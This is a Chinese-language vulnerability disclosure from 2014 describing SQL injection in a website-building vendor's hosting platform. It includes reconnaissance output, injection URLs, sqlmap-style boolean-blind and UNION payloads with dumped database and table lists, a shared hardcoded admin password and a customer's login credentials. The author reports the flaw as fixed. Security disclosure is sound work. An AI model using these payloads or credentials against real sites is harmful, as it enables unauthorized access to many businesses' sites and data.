

# 某建站厂商SQL注入影响数万企业

Feei <feei#feei.cn> 09/2014

## 0x01 信息收集

```
[+] Emails found:
------------------
david@***world.com
admin@***world.com
divid@***world.com

[+] Hosts found in search engines:
------------------------------------
122.227.***.250:server.***world.com
61.130.***.52:www.***world.com
114.80.***.133:testweb5.***world.com
61.130.***.53:wiki.make.***world.com
114.80.***.29:testweb7.***world.com
114.80.***.191:testweb6.***world.com
61.130.***.55:shop.testweb.***world.com
61.130.***.53:cn.***world.com
61.130.***.55:testweb.***world.com
60.191.***.236:admin.***world.com
61.130.***.54:make1.***world.com
61.130.***.53:make.***world.com
60.191.***.236:is-service.***world.com
61.130.***.53:service.***world.com
60.191.***.236:is-testweb7.***world.com
61.130.***.52:file.***world.com
60.191.***.236:hk.***world.com
60.191.***.236:253Dcn.***world.com
```

提取有用信息
`testwebN.***world.com`

- 上面这种域名是用来测试访问网站的(比如客户住域没有备案或者还没购买,先通过这个域名的二级目录来访问)
- 有N个这类二级域名
- 每个这类二级域名下存在数千客户网站

于是查找注入点

## 0x02 漏洞证明

简单的找了下每个二级域下的SQL注入点:

```
testweb 61.130.97.55
http://testweb.***world.com/yining/admin/login.php

testweb2 61.130.97.52 主站
http://testweb2.***world.com/suotie/admin/login.php

testweb3 114.80.68.131
http://testweb3.***world.com/wangxiang/cn/products.php?tid=18&id=1

testweb4
testweb4.***world.com/lnr/cn/faqed.php?id=11&gid=1

...
```

`http://testweb7.***world.com/dongfang/cn/products.php?act=list&id=7`

**通过注入点拿到数据库权限**
```
Place: GET  
Parameter: TypeLevel  
Type: boolean-based blind  
Title: AND boolean-based blind - WHERE or HAVING clause  
Payload: id=19&TypeLevel=1 AND 8971=8971&pid=19  
Type: UNION query

Title: MySQL UNION query (NULL) - 11 columns

Payload: id=19&TypeLevel=1 UNION ALL SELECT NULL,CONCAT(0x7170746271,0x4d597259547178556155,0x7171707a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#&pid=19  
```

**`testweb`数据库**
```
web application technology: PHP 5.2.13, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.0
[*] 'yining'@'localhost'
available databases [4]:
[*] information_schema
[*] maindb
[*] test
[*] ...

Database: maindb
[10 tables]
+---------------------------------------+
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
| ... |
+———————————————————+
```

**`testweb2`的`maindb`库**
```bash
Database: maindb 
[12 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
| ... |
+——————+
```

**`testweb3`的`maindb`库**
```
Database: maindb
[6 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| ... |
+------------+
```

通过分析得出以下结论:

- 每个客户网站只有自己数据库权限和一个名为mainbd库的权限
- 通过分析maindb表结构发现里面竟然存了该二级域名下的所有网站相关信息(管理员帐号密码/反馈/备份/日志/插件等)
- 每个二级域的maindb库里面的的客户信息表都是t_admin,并且密码没有加密
- 每个二级域的maindb库管理员表里面都有一个admin ps99379937的管理员帐户,按理说如果是存放客户的密码,为什么会都有这个帐号呢,于是继续深入下去发现了每个二级域都有一个总的管理后台(e.g `testweb2.***world.com/admin`)

## 0x03 漏洞影响




使用`admin`/`ps99379937`可以登陆所有后台,如下

- `testweb.***world.com/admin` (主要是11年建设的网站,共1940个客户)
- `testweb2.***world.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb3.***world.com/admin` (主要是11年建设的网站,共1100个客户)
- `testweb4.***world.com/admin` (主要是12年建设的网站,共1143个客户)
- `testweb5.***world.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb6.***world.com/admin` (主要是13年建设的网站,共1273个客户)
- `testweb7.***world.com/admin` (主要是13年建设的网站,共1093个客户)
- `testweb8.***world.com/admin` (主要是14年建设的网站,共483个客户)
- `testweb9.***world.com/admin` (主要是14年的)
- `testweb10.***world.com/admin` (主要是14年的)
- `testweb11.***world.com/admin` (主要是14年的)

上面截图是其中一个二级域名的管理后台，可以看到很多敏感信息
所有客户网站后台均可以登陆
从`testweb的maindb.t_admin`随便挑选一个用户

```
2644,102,宁波,朱宁斌,,lixiang,4,0,0,5000,李勇,100,lixiang,陈海啸,3lxanc85,,1,2,0,D0:D1:D2:D3:F0:F1:F2:F3:F4:F5:F6:F7:F8:F9:F10:E0:E1:E2:E3:E4:E5:E6:E7:E8:E9:E10:G0:G1:G2:G3:G4:G13:G5:G6:G7:G8:I0:I1:I2:I3:O1:O2,2009-04-30 16:24:58,http://china***.com,2010-02-12 00:00:00,100,宁波**信息工程有限公司,cn/index.php,2009-02-12 00:00:00,,宁波**信息工程有限公司
```

宁波**信息工程有限公司(http://www.china***.com/)
登陆地址:http://www.china***.com/admin/
帐号:lixiang 密码3lxanc**

粗略测试了下,客户案例里面大部分都能登陆并获取到网站后台权限和数据库权限甚至源码。
点到为止,不继续挖了。

漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。

